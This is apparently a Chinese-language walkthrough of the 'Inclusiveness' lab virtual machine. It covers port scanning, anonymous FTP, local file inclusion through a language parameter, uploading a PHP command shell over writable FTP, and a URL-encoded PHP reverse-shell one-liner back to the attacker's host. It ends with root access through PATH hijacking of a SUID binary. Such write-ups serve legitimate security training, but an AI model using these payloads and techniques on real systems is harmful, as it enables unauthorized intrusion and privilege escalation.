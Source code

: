 # inclusiveness
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/inclusiveness]
└─$ sudo nmap -p- 192.168.146.57                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:29 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:CC:0B:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds

└─$ sudo nmap -p21,22,80 -sV -A 192.168.146.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:30 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:CC:0B:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.146.57

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds

```
### FTP信息枚举
在端口枚举的时候看到FTP允许匿名访问, 匿名访问看看有没有什么文件可以下载
```
└─$ ftp 192.168.146.57   
Connected to 192.168.146.57.
220 (vsFTPd 3.0.3)
Name (192.168.146.57:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28415|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> exit
221 Goodbye.

```
看来是没有...
### Web信息枚举
通过dirsearch我们可以看到有一个.robots.txt
```
[19:35:20] 200 -   59B  - /.robots.txt
[19:35:37] 200 -   10KB - /index.html
[19:35:40] 200 -  626B  - /manual/index.html
[19:35:44] 200 -   59B  - /public_html/robots.txt
[19:35:45] 200 -   59B  - /robots.txt
[19:35:45] 200 -   59B  - /robots.txt.dist

```

![Img](../FILES/inclusiveness/img-20220814193612.png)
但是返回告诉我们不是搜索引擎, 那我们就构造一个搜索引擎的ua
```
curl -s --user-agent Googlebot http://192.168.146.57/robots.txt   
```
![Img](../FILES/inclusiveness/img-20220814193752.png)
这里看到一个Disallow的目录
<br>
![Img](../FILES/inclusiveness/img-20220814193827.png)
访问之后当我们切换语言的时候, 会发现后面多了个lang=en.php, 尝试fuzz
![Img](../FILES/inclusiveness/img-20220814194154.png)
发现确实存在LFI, 直接访问/etc/passwd
![Img](../FILES/inclusiveness/img-20220814194223.png)
还记得刚开始的时候ftp是可以写入的, 那我们在就本地写一个能够接受cmd的系统函数给靶机
![Img](../FILES/inclusiveness/img-20220814194443.png)
![Img](../FILES/inclusiveness/img-20220814194510.png)
这样我们的shell.php就上去了
<br>
尝试查看一下ftp的目录在哪里, 通常在/etc下, 并且通过nmap我们也知道这个服务名为vsftpd
![Img](../FILES/inclusiveness/img-20220814194711.png)
看到了目录在/var/ftp, 这样我们就能直接访问了
![Img](../FILES/inclusiveness/img-20220814194807.png)
## 突破边界
发送php的反弹shell到靶机
```
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.50%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![Img](../FILES/inclusiveness/img-20220814194920.png)
获取到www-data的权限
<br>
查看是否有文件具有suid的权限
![Img](../FILES/inclusiveness/img-20220814195112.png)
来到这个目录下, 查看到一个rootshell.c的文件, 通过gcc生成了rootshell
![Img](../FILES/inclusiveness/img-20220814195311.png)
![Img](../FILES/inclusiveness/img-20220814195433.png)
解读一下这行代码:    
<br>
如果文件以Tomcat的身份通过调用whoami的函数进行了身份认证之后, 可以直接提升权限, 否则将会直接打印当前的用户
<br>
那我们就去/tmp目录下新建一个whoami的文件, 然后伪造自己是tom
```
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ ls
ls
whoami
www-data@inclusiveness:/tmp$ chmod +x whoami
chmod +x whoami
www-data@inclusiveness:/tmp$ 
```
然后修改系统的路径到/tmp
```
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ 
```
然后去执行/rootshell
![Img](../FILES/inclusiveness/img-20220814200330.png)
提权成功
![Img](../FILES/inclusiveness/img-20220814200354.png)
